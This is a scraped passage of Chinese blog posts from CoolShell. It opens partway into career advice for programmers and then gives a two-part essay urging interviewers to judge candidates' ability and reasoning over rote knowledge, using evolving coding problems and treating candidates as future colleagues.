<iframe id="aswift_2" name="aswift_2" sandbox="allow-forms allow-popups allow-popups-to-escape-sandbox allow-same-origin allow-scripts allow-top-navigation-by-user-activation" width="704" height="280" frameborder="0" marginwidth="0" marginheight="0" vspace="0" hspace="0" allowtransparency="true" scrolling="no" src="https://googleads.g.doubleclick.net/pagead/ads?client=ca-pub-3415450859608158&amp;output=html&amp;h=280&amp;adk=11942583&amp;adf=2828340673&amp;pi=t.aa~a.425447425~i.33~rp.4&amp;daaos=1684211763192&amp;w=704&amp;fwrn=4&amp;fwrnh=100&amp;lmt=1684225390&amp;num_ads=1&amp;rafmt=1&amp;armr=3&amp;sem=mc&amp;pwprc=9848079135&amp;ad_type=text_image&amp;format=704x280&amp;url=https%3A%2F%2Fcoolshell.cn%2Farticles%2F4561.html&amp;fwr=0&amp;pra=3&amp;rh=176&amp;rw=703&amp;rpe=1&amp;resp_fmts=3&amp;wgl=1&amp;fa=27&amp;uach=WyJXaW5kb3dzIiwiMTUuMC4wIiwieDg2IiwiIiwiMTEzLjAuNTY3Mi45MyIsW10sMCxudWxsLCI2NCIsW1siR29vZ2xlIENocm9tZSIsIjExMy4wLjU2NzIuOTMiXSxbIkNocm9taXVtIiwiMTEzLjAuNTY3Mi45MyJdLFsiTm90LUEuQnJhbmQiLCIyNC4wLjAuMCJdXSwwXQ..&amp;dt=1684225395504&amp;bpp=2&amp;bdt=3956&amp;idt=2&amp;shv=r20230511&amp;mjsv=m202305110101&amp;ptt=9&amp;saldr=aa&amp;abxe=1&amp;cookie=ID%3D0d07f49f6b8dcf9c-226d50db32df00c0%3AT%3D1684225323%3ART%3D1684225323%3AS%3DALNI_MbGz6cUxfOPuJyOTj4KW8uTxBkCSQ&amp;gpic=UID%3D0000098b1620714e%3AT%3D1684225323%3ART%3D1684225323%3AS%3DALNI_Mb6545bwWtW6AyFc5mZPtSLxS_LXw&amp;prev_fmts=0x0%2C1200x280&amp;nras=3&amp;correlator=4639867807858&amp;frm=20&amp;pv=1&amp;ga_vid=595882335.1684225301&amp;ga_sid=1684225301&amp;ga_hid=406650983&amp;ga_fc=1&amp;u_tz=480&amp;u_his=1&amp;u_h=915&amp;u_w=1463&amp;u_ah=867&amp;u_aw=1463&amp;u_cd=24&amp;u_sd=1.75&amp;dmc=8&amp;adx=225&amp;ady=2937&amp;biw=1447&amp;bih=764&amp;scr_x=0&amp;scr_y=1591&amp;eid=44759876%2C44759837%2C44773809%2C44759927%2C31071755%2C31074635%2C44788441%2C44792089&amp;oid=2&amp;psts=ABHeCvjegiC8jHfGnYdhqgtb36gg5gL8vEul0S8UwduqQvvXuIo1a9gxOCuD5iaxjipPhJDKqCQhHV7bvn4R&amp;pvsid=428053354488483&amp;tmod=182273927&amp;uas=3&amp;nvt=2&amp;ref=https%3A%2F%2Fcoolshell.cn%2Fpage%2F27&amp;fc=1408&amp;brdim=0%2C0%2C0%2C0%2C1463%2C0%2C1463%2C867%2C1463%2C764&amp;vis=1&amp;rsz=%7C%7Cs%7C&amp;abl=NS&amp;fu=128&amp;bc=31&amp;ifi=3&amp;uci=a!3&amp;btvi=1&amp;fsb=1&amp;xpc=ktPVQ1DszK&amp;p=https%3A//coolshell.cn&amp;dtd=42" data-google-container-id="a!3" data-google-query-id="CMm_ocO0-f4CFR8ArQYdJFcG-w" style="box-sizing: border-box; max-width: 100%; width: 704px; left: 0px; top: 0px; border: 0px; height: 280px;"></iframe>

所以，你一定要对自己做出一个判断，要学会反思，如果你是有能力的适合走技术路线的人，那以我非常建议你走技术路线。

我也尝试创过业，但我觉得我这种人是“谋士”，不是能攻城拔寨的“将军”，创业更需要的是“将军”，我目前只能是一个辅佐他们的“谋士”，所以，我也只能尽力能成为一个级别高点的“谋士”。

#### 三、再说说工作的事

我比较同意的”第一份基本决定了近几年或者一辈子你在哪个行业发展”，但又有一点点不是很同意。因为我毕业的时候，在银行混了两年，然后又去一个国企业呆了2年。所以，第一份工作并没有影响我的职业。但是，我必需承认——当我从银行出来的时候，我落后了，落后了还很多，我花了近5-6年的时候才把这个差距追了回来。

所以，我有几个观点想告诉大家：


- 第一份工作并不决定你的人生

  。因为你可以在2年内换工作。但是你头四年的做的事会对你的职业有影响。这里，我有两个案例分享一下。（我不用说太多了，相信大家自己能体会）

  - 一个是我的同学70后，他以前是程序员，干了5/6年后不想干了，想转行，结果转不了，因为他的工作经历让他很难转行了，他问了一下自己是否愿意和那些刚毕业的80后拿一样的工作一起竞争，最后他自己都不愿意。后来，他去读了MBA，现在还做IT，现在做一些业务咨询方面的工作。不能算失败，但是时间浪费了。
  - 还有一个是我的同事，她CS专业毕业想做程序员，但最后为了进一个好的公司只能做QA，现在4年多了，她很想很想做dev，但是却抱怨工作没有给她这样的机会，4年多的QA经验让她很难成为Dev了。我从她做QA一年的时候就在和她说，如果你想做Dev，你就要有技术储备，多和dev在一起工作，QA又怎么样，如果我能读Dev的代码，我总有一天会成为Dev的。事实证明，她对技术并没有太多热情。现在也只能得过且过了。

- 如果你觉得自己在技术有自信有热情，而且已经有一些成绩了，我强烈建议你去IT公司中锻炼，越尊重技术的的IT公司越好。就像打球一样，只有和比你厉害的人一起玩，你才会得提高。

- 如果你对技术的热情一般，也没有太多的自我价值的追求，也不想拼搏，而且对吃大锅饭不反感，对没有激情的工作不反感的话，那么，你应该去事业单位，当个公务员，走走常规则的人生，养养老也不错。这里，我多说一句，根据中国的现在国情来看，如果你有自我价值的诉求，你要去大城市，去好的公司，走体制外的路线，如果你又不想来大城市 ，只想呆在地方的话，那么，我个人非常建议你走体制内的路线，在地方，只有体制内的路线是最好的。

- 千万别去一些没有前途的小公司（要去小公司你得看看这个公司的人和业务），很多不起眼的小公司现在都变大了，能和一个公司一起成长是相当难得的（我现在就特别想要这方面的经历），现在这个社会，与其去那些很难成长为大公司的小的很不规范的公司，还不如自己创业。（**更新2011/4/26**：[@islet8 ](https://coolshell.cn/articles/4561.html#comment-48180)回复中的观点可能比我的更好——“我觉得第一份工作能尽量进大公司的确是有好处的，能够帮你建立起一套规范的、成熟的工作习惯了思维方式，经过一两年（在激情还没被磨灭之前）再挑一个靠谱的、能赌上自己前途的小公司（比如同事朋友等推荐过去的或是他们联合创立的）一起成长一遍，无论公司的成败，对个人来说，那都是成功了”）

#### 四，技术可以做多长

在这里，我用我自己经历做个例子，我在软件编程上有14年了（加上大学里的项目就有16年了），虽然我今天是经理了，但是我还是喜欢编程。我以前也听到过别人说的——做技术太辛苦，没前途。我并不这样觉得，因为我觉得技术是实实在在的东西，很实在，这让我很踏实，踏实的感觉得好。因为，

- 我个人觉得真正的稳定是，今天我离开 这个公司，我明天就能找到相应的工作。
- 如果我的工作不成问题了，那么我就可以从谋生上升到事业的层次来。
- 只有到了事业这个层次，我才能有所建树。

另外，我觉得说出来的那些话的人要么就是“小猫钓鱼”的那些人，要么就是短视的人，你可以问问他们，哪个非技术的行业有前途，然后你去问问从事那个行业的人怎么样看？我15年来都在编程，虽然走了一些弯路，但是我很感谢那些中途退缩者，是他们让我这15年变得更有价值。15年从事同一个件事，这让我很有竞争力。有了竞争力，我的工作才不会是一个问题，我才能上升上事业的层次上来。

当然，如果你发现你不适合，你无法坚持，那么我建议你还是想清楚，别的行业你能坚持吗？**我们不害怕转行，害怕的是自己对自己缺乏认识，害怕的是小猫钓鱼，害怕的是一山望比一山高**。

#### 五，待遇和职位

比如你的职位，薪水，福利，等，我从来都不是很关心这些东西，这些都是次要的（其次重要的），最重要的是你的能力和经历，是那些可以写在你简历上的，让你引以自豪的经历和能力。（一定要自己引以自豪）。**而你的职位，薪水，只不过是你能力和经历的附属品**。

把自己对待遇和职位的那个目标放在心里，踏踏实实做好今天的事，炼好自己的内功，注重经验的积累和总结，等待一个能让你量变引发质变的机会，用你的能力抓住它不要放手，你会发现你的路就在前方，通往这条路的门不知不觉已经开了。功到自然成，水到渠成。

以上是我的一些建议，不一定对，其可能因为我的个人经历有局限，还希望听道大家的讨论和指点。

# 再谈“我是怎么招聘程序员的”（上）

#####  [2011年04月20日 ](https://coolshell.cn/articles/4506.html) [陈皓](https://coolshell.cn/articles/author/haoel) 评论 [94 条评论](https://coolshell.cn/articles/4506.html#comments) 128,078 人阅读

我以前写过一篇“[我是怎么招聘程序员的](https://coolshell.cn/articles/1870.html)”的文章（在[CSDN那里](http://blog.csdn.net/haoel/archive/2009/12/18/5032418.aspx)有很多人进行了回复）。今天，我想再谈谈关于招聘和面试这方面的东西，主要是以下这些原因：

- 近半年来我在进行了大量的招聘工作，对面试有一些新的体会。
- 酷壳最近发布了几篇趣味面试题（[面试题一](https://coolshell.cn/articles/4429.html)，[面试题二](https://coolshell.cn/articles/4162.html)，[面试题三](https://coolshell.cn/articles/3961.html)），从回复中让我有一些思考。
- 我有一个同事最近面试了一家公司，他和我分享了一个博士专家对他的面试，也让我思考了一些。
- 在豆瓣上看到“[知乎上某人写面试豆瓣产品经理的经历，很欢乐](http://www.douban.com/note/146145117/)”(亮点是面试官现身知乎亲自作答)

所以，我很想把自己的这些新的想法再次写下来的。还是和以前一样，这篇文章同样是献给面试官的。我认为，面试的好坏完全在面试官而不是面试的人。下面是我对“[我是怎么招聘程序员的](https://coolshell.cn/articles/1870.html)”一文中的一些加强性的观点。（关于一些点评，请参看[本文下篇](https://coolshell.cn/articles/4490.html)）

为了让我的文章有连续性，请允许我重申一下前文的几个重要观点。

- **只有应聘者真实和自然的表现，才能了解到最真实的东西**
- **重要的不是知识，重要的是其查找知识的能力**
- **重要的不是那个解题的答案，而是解题的思路和方法**

#### 操作，知识，经验，能力

我们有很多的面试官似乎分不清，什么是操作能力，什么是知识，什么是经验，什么是能力，这导致了我们的面试官经常错误地对面试者下结论，我认为分不清这些事的人是没有资格做面试官的。所以，我有必要在这里把这个问题先讲清楚。


- **操作**。我们的面试官分不清楚什么是操作技能，什么是知识，他们甚至认为操作技能就是知识甚至经验。比如他们会 问如下的问题，请问Java中的 final是什么意思？怎么查看进程的CPU利用率？怎么编写一个管道程序？怎么查看进程的程序路径？VI中的拷贝粘贴命令是什么？包括面向对象的XX模 式是什么。等等。我以为，**这些能够通过查况相关操作手册或是能够google到的东西只能说明这个人的操作技术，并不能说明他有知识或有经验**。

- **知识**。知识是一个人认知和学习的体现，可能会是一些基础概念和知识。比如这些问题：TCP和UDP的优缺点比 较，链表和哈希表的优缺点的比较。什么是堆什么是栈？进程间是怎么通信的？进程和线程的优缺点？同步和异步的优缺点？面向对象的XX设计模式的主要原则是 什么，等等。我以为，**“知其然”只是操作技术，“知其所以然”才是真正的知识**。知识不够并不代表他不能工作，会操作技能就可以应付工作，但是知识的欠缺一定会限制你的经验和能力，同样会影响你的开发质量。

- **经验**。经验通常跟一个人的经历有关系。一个人的知识范围，一个人经历过的事，通常会成为一个人经验的体现。面 试中，我们会问这些问题：你解决过最难的问题是什么？你是怎么设计这个系统的？你是怎么调试和测试你的程序的？你是怎么做性能调优的？什么样的代码是好的 代码？等等。对于工作年限不长的人来说，经历和做过的事的确会成为其经验的主要因素，尤其是业务上的有行业背景的东西。但是，我更以为，**经验可能更多的是你对知识的运用和驾驭，是你对做过事情的反思和总结，是你对他人的学习，观察和交流**。

- **能力**。一个人的能力并不会因为知道东西少而不行，也不会因为没有经验而没有能力。**一个人的能力是他做事情的一种态度，性格，想法，思路，行为，方法和风格**。**只要有热情，有想法，有好的行为方法，以及好的行事风格，那么知识和经验对他来说只是一个时间问题**。 比如：学习能力，专研精神，分析能力，沟通能力，组织能力，问题调查能力，合作能力等等。所以，对于一个新手来说，也许他的知识和经验有限，但并不代表他 能力上有问题，但是对于一个老手来说，如果其存在知识和经验欠缺的问题，那么通常都是其能力的问题。你可能暂时怀才不遇，但我不相信你会长期怀才不遇。如 果是的话，那么你必然些问题其让你的能力发挥不出来。而此时，“没有经历过”只会是你“没有能力”的一个借口。

我不否认这四样东西对于一个优秀的程序员来说都很重要。但是，通过上述的分析，我们可以知道，能力和经验和知识需要分开对待。当然，这些东西是相辅相成的，你的能力可以让你获得知识，你的知识可以让你更有经验，你的经验又会改变你的想法和思路，从而改善你的能力。**在面试中，我们需要清楚的认识到，应聘者的操作技能，知识和经验只是其能力的必要条件，并不是充要条件，而我们更应该关注于应聘者的能力**。

- 如果面试只是考查这个人的操作技能的话，那么这个面试完全失败。这是一个没有资格的面试官。
- 如果面试只是在考查这个人的知识和经验的话，那么成功了一半。因为你了解了基础知和做过的事，但这并不代表你完全了解他的真正能力。
- 如果你能够在了解这个人的知识和经验的过程中重点关注其能力（态度、性格、想法，思路，行为，方法和风格），并能正确地评估这个人的能力，那么你的面试算是非常成功的。

也许用这四个词来描述定套东西并不太合适，但我相信你明白我想表达的。另外，我想说的是，**我们不是出个题来考倒应聘者，而是要找到应聘者的亮点和长处**。

#### 不要肤浅地认识算法题和智力题

很多公司都会在面试的时候给一些算法题或是一些智力题或是一些设计题，我相信算法题或是智力题是程序员们在面试过程中最反感的事了。很多人都很BS面试官问的算法题，因为他们认为面试官问的这些算法题或智力题在实际工作当中用不到。但我想在这里说，**问难的算法智力题并没有错，错的很多面试官只是在肤浅甚至错误地理解着面试中的难题的目的**。他们认为，能做出算法题和智力题的人就是聪明的人就是有能力的人，这种想法实在是相当的肤浅。

其实，能解难题并不意味着这个人就有能力就能在工作中解决问题，你可以想想，小学奥数题可能比这些题更难，但并不意味着那些奥数能手就有实际工作能力。你可 以想一想你们班考试得高分的同学并不一定就是聪明的人，也不一定就是有能力的人，相反，这样的人往往者是在应试教育下培养出来的书呆子。

<iframe id="aswift_2" name="aswift_2" sandbox="allow-forms allow-popups allow-popups-to-escape-sandbox allow-same-origin allow-scripts allow-top-navigation-by-user-activation" width="704" height="280" frameborder="0" marginwidth="0" marginheight="0" vspace="0" hspace="0" allowtransparency="true" scrolling="no" src="https://googleads.g.doubleclick.net/pagead/ads?client=ca-pub-3415450859608158&amp;output=html&amp;h=280&amp;adk=3468609261&amp;adf=2590220606&amp;pi=t.aa~a.425447425~i.37~rp.4&amp;daaos=1684211763192&amp;w=704&amp;fwrn=4&amp;fwrnh=100&amp;lmt=1684208292&amp;num_ads=1&amp;rafmt=1&amp;armr=3&amp;sem=mc&amp;pwprc=9848079135&amp;ad_type=text_image&amp;format=704x280&amp;url=https%3A%2F%2Fcoolshell.cn%2Farticles%2F4506.html&amp;fwr=0&amp;pra=3&amp;rh=176&amp;rw=703&amp;rpe=1&amp;resp_fmts=3&amp;wgl=1&amp;fa=27&amp;adsid=ChAI8NOMowYQtrqL5uuD-o59EjkAVlC_xtVcjT83oHL7YLzm13HWzE4uiXjyVQSMHEyRb78SqVEjmm1-Ex0ajTmSsyef_f0WwMYUAPg&amp;uach=WyJXaW5kb3dzIiwiMTUuMC4wIiwieDg2IiwiIiwiMTEzLjAuNTY3Mi45MyIsW10sMCxudWxsLCI2NCIsW1siR29vZ2xlIENocm9tZSIsIjExMy4wLjU2NzIuOTMiXSxbIkNocm9taXVtIiwiMTEzLjAuNTY3Mi45MyJdLFsiTm90LUEuQnJhbmQiLCIyNC4wLjAuMCJdXSwwXQ..&amp;dt=1684225433193&amp;bpp=1&amp;bdt=9411&amp;idt=1&amp;shv=r20230511&amp;mjsv=m202305110101&amp;ptt=9&amp;saldr=aa&amp;abxe=1&amp;cookie=ID%3D0d07f49f6b8dcf9c-226d50db32df00c0%3AT%3D1684225323%3ART%3D1684225323%3AS%3DALNI_MbGz6cUxfOPuJyOTj4KW8uTxBkCSQ&amp;gpic=UID%3D0000098b1620714e%3AT%3D1684225323%3ART%3D1684225323%3AS%3DALNI_Mb6545bwWtW6AyFc5mZPtSLxS_LXw&amp;prev_fmts=0x0%2C1200x280%2C120x600%2C1005x124&amp;nras=5&amp;correlator=7794479350760&amp;frm=20&amp;pv=1&amp;ga_vid=595882335.1684225301&amp;ga_sid=1684225301&amp;ga_hid=686516619&amp;ga_fc=1&amp;u_tz=480&amp;u_his=1&amp;u_h=915&amp;u_w=1463&amp;u_ah=867&amp;u_aw=1463&amp;u_cd=24&amp;u_sd=1.75&amp;dmc=8&amp;adx=225&amp;ady=3452&amp;biw=1447&amp;bih=764&amp;scr_x=0&amp;scr_y=459&amp;eid=44759876%2C44759837%2C44773809%2C44759927%2C31074198%2C31074635%2C42531706%2C44788442%2C44789923&amp;oid=2&amp;psts=ABHeCvifB30Hle9DmLTGgNA9gSGRM18FsqszOP0H5U6VofDncTziwT35fvuUt4G4FRIryrIm5mNMNGe2-JwtRm45wKEdAlM%2CABHeCvjGk8w1w0mP6aTFlgAG7qlLHe5eFGxDzdUrrBWXYVKIQo35_6bGCXnM670Ec96ODlBYlloGO_9YkZUnHOfV9mr4Q-pPRrMJ-XQez63z3hwjdlyJSQ&amp;pvsid=303311476738227&amp;tmod=182273927&amp;uas=0&amp;nvt=1&amp;ref=https%3A%2F%2Fcoolshell.cn%2Fpage%2F27&amp;fc=1408&amp;brdim=0%2C0%2C0%2C0%2C1463%2C0%2C1463%2C867%2C1463%2C764&amp;vis=1&amp;rsz=%7C%7Cs%7C&amp;abl=NS&amp;fu=128&amp;bc=31&amp;jar=2023-05-15-13&amp;ifi=3&amp;uci=a!3&amp;btvi=3&amp;fsb=1&amp;xpc=30fZA0YhgR&amp;p=https%3A//coolshell.cn&amp;dtd=11673" data-google-container-id="a!3" data-google-query-id="CMKC49q0-f4CFdD85wMdt7cIsA" data-load-complete="true" style="box-sizing: border-box; max-width: 100%; width: 704px; left: 0px; top: 0px; border: 0px; height: 280px;"></iframe>

所以，我认为解难题的过程更重要，你要主要是通过解题查看这个应聘者的思路，方法，运用到的知识，有没有一些经验，和你一起交互时和沟通得是否顺畅，等等，这些才是你重点要去观察的。当然，最终是要找到答案的。

我想，让面试者解决一个难题的真正思路是：

- **看看他对知识的应用和理解**。比如，他是否会用一些基础的数据结构和算法来解决算法题？
- **看看他的整个解题思路和想法**。答案是次要的，他的想法和行为才是重要的。
- **看看他是如何和你讨论交流的**。把面试者当成你未来的同事，当成你的工作伙伴，一起解题，一起讨论，这样可以看看大家是否可以在一起工作。

这些方面才是考查应聘者的能力（思路，方法、态度，性格等），并顺带着考查面试者的经验和知识。下面是一些面试的点：

- 应聘者在解算法题时会不会分解或简化这个难题。这是分析能力。
- 应聘者在解算法题 时会不会使用一些基础知识，如数据结构和基础算法。这是知识。
- 应聘者在解题 时和你讨论的过程中你有没有感到应聘者的专研精神和良好的沟通。
- 应聘者在对待这个算法题的心态和态度。如，面试面是否有畏难情绪。
- 应聘者在解题时的思路和方法是否得当，是否是比较科学的方法？
- 等等。

**在解难题 的过程中考查应聘者的能力才是最终目的，而不是为难应聘者，不然，你只是一个傲慢而无知的面试官**。

#### 模拟实际中的挑战和能力

作为面试官的你，你应该多想想你的工作，以及你的成长经历。这会对你的面试很有帮助。你在工作中解决问题的实际情况是什么？你写代码的实际情况是什么？你的成长经历是什么？你是怎么获得知识和能力的？你喜欢和什么样的人工作？**相信你不难会发现你工作中的实际情况和面试的情况完全是两码事，那么，你怎么可以用这种与实际情况差别那么大的面试来评估一个人的能力呢**？

所以，最为理想的面试是一起工作一段时间。当然，这个在招聘过程中，操作起来几乎不可能，因此，这就要求我们的面试官尽可能地把面试的过程模拟成平时工作的 过程。大家一些讨论来解决一个难题，和应聘者一起回顾一下他已经做过的事情，并在回础的过程中相互讨论相互学习。下面举一个例子。

我们知道，对于软件开发来说，开发软件不难，难是的下面是这些挑战：

1. 软件的维护成本远远大于软件的开发成本。
2. 软件的质量变得越来越重要，所以，测试工作也变得越来越重要。
3. 软件的需求总是在变的，软件的需求总是一点一点往上加的。
4. 程序中大量的代码都是在处理一些错误的或是不正常的流程。

所 以，当我们在考查应聘者的代码能力时候，我们为什么不能模拟这样的过程呢？比如，让应聘者实现一个atoi()的函数，实现起来应该很简单，然后 不断地往上加新的需求或新的案例，比如：处理符号，处理非数字的字母的情况，处理有空格的情况，处理十六进制，处理二进制，处理“逗号”，等等，我们要看 应聘者是怎么修改他的代码的，怎么写测试案例的，怎么重构的，随着要处理的东西越来越多，他的代码是否还是那么易读和清晰。如果只是考查编码能力，一个小时，就问这一个问题，足矣。真正的程序员每天都在和这样的事打交道的。

如果要考查应聘者的设计能力，同样可以如法泡制。不断地加新的功 能，新的需求。看看面试者的思路，想法，分 析的方法，和你的讨论是否流畅，说没说在 点上，思想清不清晰，会应用什么样的知识，他在设计这个系统时的经验是会是什么样的，面对不断的修改和越来越复杂的需求，他的设计是否还是那么好？

当然，因为时间比较短，所以，你不能出太复杂的问题，这需要你精心设计一些精制的有代表性的问题。

（末完，[请参看下篇](https://coolshell.cn/articles/4490.html)）

# 再谈“我是怎么招聘程序员的”（下）

#####  [2011年04月20日 ](https://coolshell.cn/articles/4490.html) [陈皓](https://coolshell.cn/articles/author/haoel) 评论 [73 条评论](https://coolshell.cn/articles/4490.html#comments) 69,535 人阅读

**[\**<<<再谈“我是怎么招聘程序员的”（上）\**](https://coolshell.cn/articles/4506.html)**

在上篇中，我们说到了一些认识人的方法（操作，知识，经验，能力），还有一些面试的方法（算法题，实际生产活动中的挑战），下面我们来说说，面试的风格，还有一些点评。***\*
\****

#### 把应聘者当成你的同事

有些公司的面试官，在面试过程中问你一个算法题，然后等着你解答了，如果你给出一个答案，然后就会问你有没有更好的答案，如果你给出了正确的答案，他们就会问你一个更难的问题，如此循环下去。他们基本上很少给你提示，甚至不停地质问你，挑战你，搞得应聘者很紧张。

另外，有很多问题是没有标准答案的，或者说是，同一个答案的描述方法有多种，很多面试官会觉得你没有回答到他想要的答案，因此表现得有对你不屑，并表现出你不行的样子，并觉得你的能力有问题。真是可笑了。比如我一个朋友在回答什么是异步的问题时，举例说明了异步调用就是不能处理完就返回，并且需要传递一个回调函数给调用方以便完成后回调通知结果。这样的回答并没有错，但是这并不符合面试官心里想要的答案，面试官对此并不满意，进而认为我这个朋友还需要去多读读书。

<iframe id="aswift_2" name="aswift_2" sandbox="allow-forms allow-popups allow-popups-to-escape-sandbox allow-same-origin allow-scripts allow-top-navigation-by-user-activation" width="704" height="280" frameborder="0" marginwidth="0" marginheight="0" vspace="0" hspace="0" allowtransparency="true" scrolling="no" src="https://googleads.g.doubleclick.net/pagead/ads?client=ca-pub-3415450859608158&amp;output=html&amp;h=280&amp;adk=2291823774&amp;adf=2770932297&amp;pi=t.aa~a.425447425~i.9~rp.4&amp;daaos=1684211763192&amp;w=704&amp;fwrn=4&amp;fwrnh=100&amp;lmt=1684216685&amp;num_ads=1&amp;rafmt=1&amp;armr=3&amp;sem=mc&amp;pwprc=9848079135&amp;ad_type=text_image&amp;format=704x280&amp;url=https%3A%2F%2Fcoolshell.cn%2Farticles%2F4490.html&amp;fwr=0&amp;pra=3&amp;rh=176&amp;rw=703&amp;rpe=1&amp;resp_fmts=3&amp;wgl=1&amp;fa=27&amp;adsid=ChAI8NOMowYQtrqL5uuD-o59EjkAVlC_xutGH54N_3R8z-DBiUFV_M8HRw19BznE2eBKcpKvQNMkKSAidMux6aUqaOxpPTJQ9uqeXac&amp;uach=WyJXaW5kb3dzIiwiMTUuMC4wIiwieDg2IiwiIiwiMTEzLjAuNTY3Mi45MyIsW10sMCxudWxsLCI2NCIsW1siR29vZ2xlIENocm9tZSIsIjExMy4wLjU2NzIuOTMiXSxbIkNocm9taXVtIiwiMTEzLjAuNTY3Mi45MyJdLFsiTm90LUEuQnJhbmQiLCIyNC4wLjAuMCJdXSwwXQ..&amp;dt=1684225433684&amp;bpp=1&amp;bdt=4967&amp;idt=1&amp;shv=r20230511&amp;mjsv=m202305110101&amp;ptt=9&amp;saldr=aa&amp;abxe=1&amp;cookie=ID%3D0d07f49f6b8dcf9c-226d50db32df00c0%3AT%3D1684225323%3ART%3D1684225323%3AS%3DALNI_MbGz6cUxfOPuJyOTj4KW8uTxBkCSQ&amp;gpic=UID%3D0000098b1620714e%3AT%3D1684225323%3ART%3D1684225323%3AS%3DALNI_Mb6545bwWtW6AyFc5mZPtSLxS_LXw&amp;prev_fmts=0x0%2C1200x280%2C1447x764&amp;nras=4&amp;correlator=4926606061515&amp;frm=20&amp;pv=1&amp;ga_vid=595882335.1684225301&amp;ga_sid=1684225301&amp;ga_hid=1531662578&amp;ga_fc=1&amp;u_tz=480&amp;u_his=1&amp;u_h=915&amp;u_w=1463&amp;u_ah=867&amp;u_aw=1463&amp;u_cd=24&amp;u_sd=1.75&amp;dmc=8&amp;adx=225&amp;ady=1364&amp;biw=1447&amp;bih=764&amp;scr_x=0&amp;scr_y=0&amp;eid=44759876%2C44759837%2C44773809%2C44759927%2C31074635%2C44772269%2C44788441%2C44789923&amp;oid=2&amp;psts=ABHeCvjUM6aWyMyNnqeiJOZKsefmn-_Hhc1FYHu-hNOXWxcUgMSZzl-jlzusITPU3XF4cz0tNyYMWjBAMjGB&amp;pvsid=2492285898140816&amp;tmod=182273927&amp;uas=0&amp;nvt=1&amp;ref=https%3A%2F%2Fcoolshell.cn%2Fpage%2F27&amp;fc=1408&amp;brdim=0%2C0%2C0%2C0%2C1463%2C0%2C0%2C0%2C1463%2C764&amp;vis=1&amp;rsz=%7C%7Cs%7C&amp;abl=NS&amp;fu=128&amp;bc=31&amp;jar=2023-05-15-13&amp;ifi=3&amp;uci=a!3&amp;btvi=1&amp;fsb=1&amp;xpc=TRF410hOf4&amp;p=https%3A//coolshell.cn&amp;dtd=9328" data-google-container-id="a!3" data-google-query-id="CO679Nm0-f4CFYAFrQYdO00KIg" data-load-complete="true" style="box-sizing: border-box; max-width: 100%; width: 704px; left: 0px; top: 0px; border: 0px; height: 280px;"></iframe>

我相信大多数面试官都会这样干的。我想问问这样的面试官，**你们有没有用面试的方式对过你的同事？在你的工作场景中，你会不会用面试的风格和你的同事进行交流和说话？**不妨让我们来问我们自己下面几个问题：

- 你在工作当中遇到难题时你是怎么解决的？你会和人讨论吗？你只用15分钟就能得出最优解吗？
- 你在工作当中解决难题时是否会有一个人在旁边质问你并给你压力吗？
- 你在工作当中会为难你的同事吗？会让你的同事紧张吗？你觉得在紧张的状态下能做好工作吗？
- 你在工作中觉得同事的回答并不是你想要的答案，不是符合你的答案，你会认为你的同事不行吗？
- 你的成长过程是什么样的？在是压力和天天被人质问的情况下成长的吗？
- 大家都知道学校里应试教育的弊端，你觉得你的面试是不是一种应试呢？
  （看看这么多的应聘者们都在做各种各样的算法题，这不就是一种应试吗？）

想一想你的日常工作，问自己一下上面这些问题，想一想你自己的成长过程，想一想你和你的同事是怎么相处的，想一想你的日常工作中是什么样的，相信你自己也能得出结论的。

如果你把应聘者当成自己未来的同事，那么你的面试会有下面的收获：


- 面试的气氛会很不错，应聘者会放松，表现自然，更接受于真实的状态。
- 面试中的交流和互动（而不是一问一答）会让你更全面的考查和了解一个人。
- 非应试的面试，会让你了解得更多。
- 真实的了解一个人，你才能做出真正正确的结论。

#### 向应聘者学习

下面有几个观点

- 面试的过程是一个相互学习的过程，并不是你为难面试者的过程。
- 一问一答是很一种呆板死板的过程，相互讨论相互学习，有良好的互动才是好的面试过程。
- 面试官要证明的不是你有多强有多聪明，而是要挖掘应聘者的优势和能力。
- 面试官用为自己的问题预设好一个标准答案，看看应聘者能为你带来什么。
- 向来应聘的人学习，而不是刁难。

**无论你多牛，要难倒你实在是太容易了。出难题不是目的，难倒人也很容易，出难题只不过是用来了解应聘者能力的一个手段，而不是面试的全部**。

我不知道你喜欢不喜欢一些竞技类的运动？比如踢球，打篮球，羽毛球，下象棋等，你一般想和什么样的人玩？是差的，还是强的？所以，**能够从面试者那里学到东西，喜欢和面试者一起工作，这才是面试真正的目的**。

对于一个团队来说，如果大家都是一样的想法，一样的主张，一样的倾向，那么这个团队最终会是一个闭塞的团队，你如果不能真正接纳不同想法的人，不同主张的人，那么你也将失去进步的机会。**如果你的团队总是在招入和你一样的人，那么你的团队怎么可能会有out-of-box的想法呢？世界因为不同而美好**。

<iframe id="aswift_3" name="aswift_3" sandbox="allow-forms allow-popups allow-popups-to-escape-sandbox allow-same-origin allow-scripts allow-top-navigation-by-user-activation" width="704" height="280" frameborder="0" marginwidth="0" marginheight="0" vspace="0" hspace="0" allowtransparency="true" scrolling="no" src="https://googleads.g.doubleclick.net/pagead/ads?client=ca-pub-3415450859608158&amp;output=html&amp;h=280&amp;adk=2291823774&amp;adf=751270402&amp;pi=t.aa~a.425447425~i.33~rp.4&amp;daaos=1684211763192&amp;w=704&amp;fwrn=4&amp;fwrnh=100&amp;lmt=1684216685&amp;num_ads=1&amp;rafmt=1&amp;armr=3&amp;sem=mc&amp;pwprc=9848079135&amp;ad_type=text_image&amp;format=704x280&amp;url=https%3A%2F%2Fcoolshell.cn%2Farticles%2F4490.html&amp;fwr=0&amp;pra=3&amp;rh=176&amp;rw=703&amp;rpe=1&amp;resp_fmts=3&amp;wgl=1&amp;fa=27&amp;adsid=ChAI8NOMowYQtrqL5uuD-o59EjkAVlC_xutGH54N_3R8z-DBiUFV_M8HRw19BznE2eBKcpKvQNMkKSAidMux6aUqaOxpPTJQ9uqeXac&amp;uach=WyJXaW5kb3dzIiwiMTUuMC4wIiwieDg2IiwiIiwiMTEzLjAuNTY3Mi45MyIsW10sMCxudWxsLCI2NCIsW1siR29vZ2xlIENocm9tZSIsIjExMy4wLjU2NzIuOTMiXSxbIkNocm9taXVtIiwiMTEzLjAuNTY3Mi45MyJdLFsiTm90LUEuQnJhbmQiLCIyNC4wLjAuMCJdXSwwXQ..&amp;dt=1684225433689&amp;bpp=1&amp;bdt=4973&amp;idt=1&amp;shv=r20230511&amp;mjsv=m202305110101&amp;ptt=9&amp;saldr=aa&amp;abxe=1&amp;cookie=ID%3D0d07f49f6b8dcf9c-226d50db32df00c0%3AT%3D1684225323%3ART%3D1684225323%3AS%3DALNI_MbGz6cUxfOPuJyOTj4KW8uTxBkCSQ&amp;gpic=